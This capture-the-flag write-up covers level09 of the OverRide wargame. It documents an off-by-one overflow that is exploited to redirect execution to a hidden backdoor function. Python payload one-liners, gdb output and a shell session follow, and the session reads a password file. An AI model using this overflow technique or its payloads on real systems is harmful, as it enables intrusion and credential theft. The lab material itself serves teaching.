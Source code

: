 # level09

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```console
level09@OverRide:~$ checksec --file ./level09
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   ./level09
```

From our analysis of the program, here are the different steps performed:

- The `main` function calls `handle_msg` which declares a structure containing a 40 bytes buffer we will call
  `username`, another one of 140 bytes, `msg`, and an integer, `msglen`, set to 140.
- The structure address is sent to `set_username` which fills an intermediate buffer of 128 bytes thanks to a `fgets`
  call on the standard input, then uses a `for` loop that copies 41 characters from the intermediate buffer to
  `username`. A programming error is present here and opens a vulnerability. Indeed, the `username` variable is an array
  of 40 characters but the `for` loop goes through 41 characters, allowing us to overwrite one byte of the next
  structure's variable `msglen`.
- The next function called `set_msg` is similar to `set_username`: a buffer of 1024 bytes is filled with `fgets`, then
  copied to `msg` via `strncpy` with the `msglen` variable as its size parameter. Since we know we can overwrite one
  byte of `msglen` value, we will try to reach the return address pointer of `handle_msg` by copying enough bytes.

According to `checksec` output, we can't execute code from the stack, hopefully a hidden function `secret_backdoor` has
been declared.

```gdb
gdb-peda$ pd secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   rbp
   0x000055555555488d <+1>:     mov    rbp,rsp
   0x0000555555554890 <+4>:     add    rsp,0xffffffffffffff80
   0x0000555555554894 <+8>:     mov    rax,QWORD PTR [rip+0x20171d]
   0x000055555555489b <+15>:    mov    rax,QWORD PTR [rax]
   0x000055555555489e <+18>:    mov    rdx,rax
   0x00005555555548a1 <+21>:    lea    rax,[rbp-0x80]
   0x00005555555548a5 <+25>:    mov    esi,0x80
   0x00005555555548aa <+30>:    mov    rdi,rax
   0x00005555555548ad <+33>:    call   0x555555554770 <fgets@plt>
   0x00005555555548b2 <+38>:    lea    rax,[rbp-0x80]
   0x00005555555548b6 <+42>:    mov    rdi,rax
   0x00005555555548b9 <+45>:    call   0x555555554740 <system@plt>
   0x00005555555548be <+50>:    leave
   0x00005555555548bf <+51>:    ret
End of assembler dump.
```

This function calls `fgets` to fill a buffer of 128 characters from the standard input, then uses it as a command sent
to `system`.

## Exploit

Since the binary has been compiled in 64-bit, we need to find the right offset to overwrite the content of the stack
pointer RSP (not the EIP/RIP) in order to make `handle_msg` jump to `secret_backdoor` instead of returning to `main`.

To do so, We prepare the following string : 40 characters + the bigger one-byte value (0xff or 255) to overwrite
`msglen` value and make `strncpy` go as far as we can + a newline character to end the first `fgets` + a string of 256
characters generated via this [buffer overflow string
generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) that supports 64-bit registers.

```console
level09@OverRide:~$ python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A"' > /tmp/level09
```

```gdb
gdb-peda$ r < /tmp/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0xd ('\r')
RBX: 0x0
RCX: 0x7ffff7b01f90 (<write+16>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd5a90 --> 0x0
RSI: 0x7ffff7ff7000 (">>: >: Msg sent!\n", 'A' <repeats 39 times>"\377, >: Msg @Unix-Dude\n")
RDI: 0xffffffff
RBP: 0x6741356741346741 ('Ag4Ag5Ag')
RSP: 0x7fffffffe5c8 ("6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4")
RIP: 0x555555554931 (<handle_msg+113>:	ret)
R8 : 0x7ffff7ff7004 (">: Msg sent!\n", 'A' <repeats 39 times>"\377, >: Msg @Unix-Dude\n")
R9 : 0xc ('\x0c')
R10: 0x21 ('!')
R11: 0x246
R12: 0x555555554790 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe6b0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554924 <handle_msg+100>:	lea    rdi,[rip+0x295]        # 0x555555554bc0
   0x55555555492b <handle_msg+107>:	call   0x555555554730 <puts@plt>
   0x555555554930 <handle_msg+112>:	leave
=> 0x555555554931 <handle_msg+113>:	ret
   0x555555554932 <set_msg>:	push   rbp
   0x555555554933 <set_msg+1>:	mov    rbp,rsp
   0x555555554936 <set_msg+4>:	sub    rsp,0x410
   0x55555555493d <set_msg+11>:	mov    QWORD PTR [rbp-0x408],rdi
```

We provide the RBP address `0x6741356741346741` to our tool, then add 8 to the result to reach the RSP content offset,
200.

Now, we get the `secret_backdoor` address with gdb. Note that the program must have been started to get the right
address after the dynamic relocation.

```gdb
gdb-peda$ info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

From here we have everything we need to perform the exploit. Let's generate our final string, composed of three parts:

- In first, we copy the same string as the previous one we have used to fill the first `fgets` call and overwrite
  `msglen` value, but we may change this value to match exactly the needed size, 200 + 8 bytes (for the address itself),
  so 0xd0 in hexadecimal.
- Then, 200 characters to reach the offset, the `secret_backdoor` address which will overwrite the content of RSP, and a
  newline character to stop the second `fgets` reading.
- Finally, if everything works as expected, we will jump to `secret_backdoor` which uses a third `fgets` to get the
  command to send to `system`, so we just add `"/bin/sh"`. Here we go!

```console
python -c 'print "A" * 40 + "\xd0" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > /tmp/level09
level09@OverRide:~$ cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
